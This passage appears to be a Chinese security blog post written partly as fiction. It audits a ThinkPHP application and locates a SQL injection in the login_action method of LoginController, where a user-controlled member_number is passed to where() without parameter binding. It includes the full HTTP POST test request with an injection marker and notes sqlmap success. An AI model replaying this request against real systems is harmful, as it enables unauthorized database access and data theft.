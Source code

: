 # thinkphp框架，搜索关键词where(  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QtaE6uFmibPlu8MibauV25IibJuxb8nN4hVPf5942jRwREmlJiaJAnYswUicXiaLO7HNFD1AHfK4ZPMw7ibqT7FIl5ia6Q/640?wx_fmt=png&from=appmsg "")  
# 大部分都是参数绑定形式，还是让我找到了一处危险写法  
# 对应文件：Home/Controller/LoginController.class.php  
# 对应方法：login_action()  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QtaE6uFmibPlu8MibauV25IibJuxb8nN4hVnmLep2FL4rqngclA1ko3FZKZudxliboLbMwItB4cataWaazaJYRmV1w/640?wx_fmt=png&from=appmsg "")  
# 这里where的内容不是参数绑定也不是数组形式，只有一个参数不会触发框架预防机制，存在注入，$member_number通过Thinkphp I()函数获取,也就是可控  
# 测试数据包  
```
POST /Login/login_action.html HTTP/1.1
Host: {{ip:port}}
Connection: keep-alive
Content-Length: 47
sec-ch-ua-platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
sec-ch-ua: "Google Chrome";v="135", "Not-A.Brand";v="8", "Chromium";v="135"
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
sec-ch-ua-mobile: ?0
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=i7fc7spel83kcd4t7afg4fdhl0

member_number=123123*&member_pwd=123123123&ty=on
```  
# sqlmap结果  
  
![](https://mmbiz.qpic.cn/mmbiz_png/QtaE6uFmibPlu8MibauV25IibJuxb8nN4hVkkWDUkKfzGiaG2whEZH3DE4Chzp9NofJGRIldYYCyEqzEp9Uo8Ubrvg/640?wx_fmt=png&from=appmsg "")  
  
第四章 梦醒时分  
  
当sqlmap成功后，就在我准备进一步dump数据时，眼前的终端突然闪烁，像是信号不良的老旧电视。我猛地伸手去抓，却发现键盘消失了，屏幕上的字符开始扭曲、溶解。  
  